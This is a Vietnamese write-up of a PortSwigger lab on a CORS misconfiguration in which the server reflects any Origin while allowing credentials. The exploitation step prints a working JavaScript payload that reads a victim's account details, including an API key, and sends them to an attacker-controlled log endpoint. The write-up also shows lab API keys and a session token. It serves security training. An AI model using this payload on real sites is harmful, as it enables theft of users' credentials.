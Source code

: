 # Write-ups: CORS vulnerability with basic origin reflection

### Tổng quan
Khai thác lỗ hổng Cross-Origin Resource Sharing (CORS) trong ứng dụng, nơi cấu hình CORS phản hồi `Access-Control-Allow-Origin` dựa trên header `Origin` được gửi trong yêu cầu, mà không kiểm tra tính hợp lệ của origin. Với `Access-Control-Allow-Credentials: true`, kẻ tấn công có thể sử dụng một origin bất kỳ (như `https://example.com`) để truy cập tài nguyên nhạy cảm qua `XMLHttpRequest`. Sử dụng payload JavaScript trong Exploit Server để lấy thông tin tài khoản administrator (bao gồm `apikey`) từ endpoint `/accountDetails` và gửi đến máy chủ của kẻ tấn công, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng CORS bằng cách sử dụng origin tùy ý để lấy thông tin tài khoản administrator (`apikey`) từ endpoint `/accountDetails` thông qua `XMLHttpRequest`, gửi dữ liệu đến máy chủ của kẻ tấn công và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và gửi yêu cầu GET đến `/accountDetails`
- **Phản hồi**:
    ```json
    {
    "username": "wiener",
    "email": "1111@gmail.com",
    "apikey": "fFxDRYObSQNZFamra5Cw7nSUeLgqD9AR",
    "sessions": [
        "af69srEWqHoS79iEeM3DVT1oZT3EW9hD"
    ]
    }
    ```
    - Header: `Access-Control-Allow-Credentials: true`, cho thấy ứng dụng cho phép gửi cookie phiên trong các yêu cầu cross-origin.
    - Không có `Access-Control-Allow-Origin` trong phản hồi mặc định:
        ![ACAO](./images/1_ACAO.png)

2. **Kiểm tra cấu hình CORS**
- Gửi yêu cầu GET `/accountDetails` đến Burp Repeater, thêm header `Origin: https://example.com`:
- **Phản hồi**:
    - Header: `Access-Control-Allow-Origin: https://example.com`
    - Xác nhận lỗ hổng CORS: ứng dụng phản hồi `Access-Control-Allow-Origin` dựa trên giá trị Origin trong yêu cầu, không kiểm tra tính hợp lệ, kết hợp với `Access-Control-Allow-Credentials: true`:
        ![ACAO](./images/2_ACAO.png)

3. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để lấy thông tin tài khoản qua `XMLHttpRequest`:
    ```javascript
    <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0abf00c9034c3a97b461bec0002600a9.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='/log?key='+this.responseText;
    };
    </script>
    ```
    ![body](./images/3_body.png)
- **Ý tưởng payload**:
    - Sử dụng `XMLHttpRequest` để gửi yêu cầu GET đến `/accountDetails` với `withCredentials=true`, lấy thông tin tài khoản (bao gồm `apikey`) của người dùng hiện tại (`administrator`).
    - Hàm `reqListener` gửi phản hồi (`responseText`) đến endpoint `/log` trên Exploit Server.
    - Yêu cầu được gửi từ một origin bất kỳ, và ứng dụng chấp nhận vì `Access-Control-Allow-Origin` phản hồi origin của yêu cầu.

- Store và view exploit để kiểm tra:
    - Script gửi yêu cầu GET đến `/accountDetails`, nhưng phản hồi trong access log là `/log?key="Resource not found - Academy Exploit Server"`, cho thấy endpoint /log chưa được cấu hình đúng:
        ![log](./images/4_log.png)

- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Phản hồi được gửi đến `/log?key=...`, chứa `apikey`: `yNS4n5jksPawwl77DrbsXmeW4QXaOdtl`:
        ![key](./images/5_key_admin.png)

- Submit `apikey` (`yNS4n5jksPawwl77DrbsXmeW4QXaOdtl`) trong giao diện lab để hoàn thành:
    ![solved](./images/6_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng CORS bằng cách sử dụng origin tùy ý để lấy thông tin nhạy cảm từ endpoint `/accountDetails` thông qua `XMLHttpRequest` với `withCredentials=true`, tận dụng cấu hình CORS phản hồi `Access-Control-Allow-Origin` dựa trên header `Origin`.
- Nhận thức tầm quan trọng của việc kiểm tra nghiêm ngặt danh sách `origin` được phép trong cấu hình CORS, tránh phản hồi `Access-Control-Allow-Origin` dựa trên header `Origin` từ yêu cầu, và hạn chế sử dụng `Access-Control-Allow-Credentials: true` để ngăn chặn các cuộc tấn công CORS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng CORS với cấu hình yếu phản hồi origin tùy ý, nhấn mạnh tầm quan trọng của việc kiểm tra chặt chẽ danh sách origin được phép và hạn chế sử dụng `Access-Control-Allow-Credentials` để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*